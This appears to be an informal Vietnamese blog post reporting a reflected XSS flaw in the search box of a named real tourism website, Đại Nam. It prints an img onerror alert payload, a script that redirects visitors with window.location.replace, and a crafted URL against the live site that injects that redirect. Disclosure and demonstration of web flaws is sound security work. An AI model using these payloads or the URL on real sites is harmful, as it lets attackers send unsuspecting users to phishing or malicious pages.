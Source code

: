 ```yaml
---
title: Lỗ hổng XSS của trang web khu du lịch Đại Nam
date: 12/6/2021
layout: single
header:
  teaser: /assets/images/js.png
--- 
```





## Mô Tả 

Dạo này cũng hay coi drama :D nên thử vào xem trang du lịch Đại Nam xem nó như thế nào, tình cờ phát hiện XSS ở ô tìm kiếm chèn thử vài script công nhận nó nguy hiểm thật :D  

--- 

# Demo
## Javascript
![](https://www8.0zz0.com/2021/06/12/18/357532369.png)
---
```js
--><!-- ---> <img src=xxx:x onerror=javascript:alert(1)> -->
```
Test nhẹ cái script thứ nhất hiển thị alert :D nếu hacker nhúng vào script chuyển hướng tới trang độc hại hoặc lừa đảo thì người dùng có thể bị mắc lừa của hacker, vì người dùng cứ nghĩ rằng đang ở trang chính chủ nhưng không biết đã bị hacker gắn script vào :D

```js
<script>
    window.location.replace("http://"); 
    </script>
```
Script này hacker sử dụng để chuyển hướng người dùng tới một trang web khác
+ Url dính lỗi  [Link Test](https://khudulichdainam.vn/tim-kiem.html?k=%3Cscript%3E%20window.location.replace(%22http://blogth3pr0.github.io%22);%3C/script%3E) 
---





## Thanks :D
